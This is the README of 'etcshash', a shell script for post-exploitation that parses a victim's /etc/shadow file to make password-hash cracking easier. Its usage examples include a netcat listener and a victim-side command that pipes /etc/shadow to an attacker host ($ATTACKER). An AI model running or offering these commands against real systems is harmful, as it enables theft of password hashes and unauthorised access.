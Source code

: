 # etcshash

> A shell script to parse the /etc/shadow file and automatically display the relevant information

This script aims to make post exploitation easier by parsing the `/etc/shadow` file and output the information in a concise way that makes steps like hash cracking easier

## Usage

Currently, the script only supports reading from stdin:
```sh
cat /etc/shadow | ./etcshash.sh
```
or output every field of the `/etc/shadow` file with the `-a` flag
```sh
cat /etc/shadow | ./etcshash.sh -a
```

as it reads from stdin it can also receive files sent e.g. from netcat:
```sh
# attacker machine:
nc -lvnp 1234 | ./etcshash.sh

# victim:
cat /etc/shadow | nc $ATTACKER 1234
```